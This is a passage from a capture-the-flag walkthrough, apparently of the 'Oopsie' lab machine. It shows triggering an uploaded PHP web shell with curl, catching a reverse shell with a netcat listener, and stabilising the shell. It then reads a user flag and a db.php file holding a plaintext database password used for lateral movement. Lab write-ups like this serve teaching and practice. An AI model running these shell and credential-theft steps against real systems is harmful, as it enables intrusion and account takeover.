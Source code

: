 This identified an uploads directory, and we can set up our listener and trigger a reverse shell using curl.

~~~
unknown@kali:/data/tmp$ curl http://10.10.10.28/uploads/shell.php
~~~

We land a shell as www-data and proceed to upgrade it.

~~~
unknown@kali:/data$ rlwrap nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.195] from (UNKNOWN) [10.10.10.28] 38386
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:49:57 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cat /home/robert/user.txt
f2c74ee8db7983851ab2a96a44eb7981
$ 
~~~

User flag: `f2c74ee8db7983851ab2a96a44eb7981`

Let's stabalize our shell:

~~~
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
~~~

# Lateral Movement

The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, db.php does contain credentials, and we can su robert to move laterally.

~~~
$ ls /var/www/html/cdn-cgi/login
admin.php
db.php
index.php
script.js
$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
~~~
